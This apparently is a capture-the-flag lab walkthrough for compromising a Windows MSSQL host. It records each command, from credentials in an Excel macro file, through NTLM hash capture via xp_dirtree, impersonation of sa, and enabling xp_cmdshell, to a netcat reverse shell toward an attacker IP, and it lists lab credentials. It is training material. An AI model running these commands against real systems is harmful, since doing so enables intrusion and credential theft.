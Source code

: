 #### ++ STEPS ++
-> We found a `.xlsm` (Excel) file in SMB and we extract some credentials (`reporting:PcwTWTHRwryjc$c6`) with `olevba` (`olevba "Currency Volume Report.xlsm"`)
-> With found credentials we can open mssql service and get user hash:
	`impacket-mssqlclient -p 1433 reporting:'PcwTWTHRwryjc$c6'@10.129.47.41 -windows-auth` (Connect)
	`SQL> EXEC master..xp_dirtree '\\10.10.14.55\share\'` (Catch the hash with `responder` or `smbserver`)
-> Crack the hash with john (`mssql-svc:corporate568`) and connect to user with more privileges
	`impacket-mssqlclient -p 1433 mssql-svc:'corporate568'@10.129.47.41 -windows-auth`
-> Check privileges to impersonate
	`SQL> SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
-> Query sysadmin users
	`SQL> SELECT SYSTEM_USER`  
	`SQL> SELECT IS_SRVROLEMEMBER('sysadmin')`
-> Execute commands as sysadmin
	`SQL> EXECUTE AS LOGIN = 'sa'`
-> Enable `xp_cmdshell`
	`SQL> EXECUTE sp_configure 'show advanced options', 1`
	`SQL> RECONFIGURE`
	`SQL> EXECUTE sp_configure 'xp_cmdshell', 1`
	`SQL> RECONFIGURE`
-> Execute commands in server and get a shell
	`SQL> xp_cmdshell \\10.10.14.55\share\nc.exe -e cmd.exe 10.10.14.55 9001`
#### ++ USERS ++
	reporting
	mssql-svc

#### ++ CREDENTIALS ++
	reporting : PcwTWTHRwryjc$c6
	mssql-svc : corporate568
	
#### ++ Sensitive info in SMB share (null session) ++
	We can retrieve a xlsm file with valid credentials in Reports share

#### ++ Priv Esc ++
	Path and steps